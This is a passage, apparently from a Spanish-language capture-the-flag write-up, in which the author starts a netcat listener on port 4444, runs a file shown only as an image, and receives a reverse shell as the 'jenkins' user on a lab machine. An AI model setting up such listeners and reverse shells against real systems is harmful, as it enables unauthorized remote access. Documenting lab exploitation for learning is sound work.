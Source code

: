 ![](/assets/img/internal/curl.png)
Me pongo en escucha con nc
```bash
❯ nc -lvnp 4444
```
Y ejecuto el archivo.
![](/assets/img/internal/rev.png)
Se ejecuto correctamente y me envio la shell.
```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.47.45] from (UNKNOWN) [10.10.76.45] 38520
bash: cannot set terminal process group (6): Inappropriate ioctl for device
bash: no job control in this shell
jenkins@jenkins:/$ whoami
whoami
jenkins
jenkins@jenkins:/$ 
```